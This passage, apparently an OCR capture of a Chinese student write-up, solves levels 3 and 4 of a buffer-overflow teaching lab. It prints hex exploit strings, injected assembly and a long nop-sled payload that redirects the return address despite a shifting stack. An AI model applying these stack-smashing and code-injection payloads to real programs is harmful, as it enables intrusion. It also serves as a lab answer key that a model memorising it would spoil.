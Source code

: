 得到`%ebp=0x55683450`，这是函数正常的返回地址，我们要在不更改它的情况下做溢出。

```assembly
b8 cb 90 a8 58 68 57 8c
04 08 c3 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
50 34 68 55 08 34 68 55
```



### Level 4

level 3中缓冲区所使用的内存地址是固定的，而本题中使用gdb调试发现`%ebp`的值在一定范围内浮动，因此为了保证所有的五次中都能执行到我插入的代码，我选择跳转到合适的位置。并用`nop`指令来填充占位的字节。

```assembly
nop
nop
movl $0x58a890cb, %eax
lea 0x18(%esp), %ebp
push $0x8048d0e
ret
```

虽然`%ebp`的值在变，但是它和`%esp`的差不变，通过这一点我们可以设置出合适的返回地址。

```assembly
08048cfc <testn>:
 8048cfc:	55                   	push   %ebp
 8048cfd:	89 e5                	mov    %esp,%ebp
 8048cff:	83 ec 18             	sub    $0x18,%esp  
```

```assembly
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 b8 cb 90 

a8 58 8d 6c 24 18 68 0e 8d 04 08 c3 88 32 68 55
```
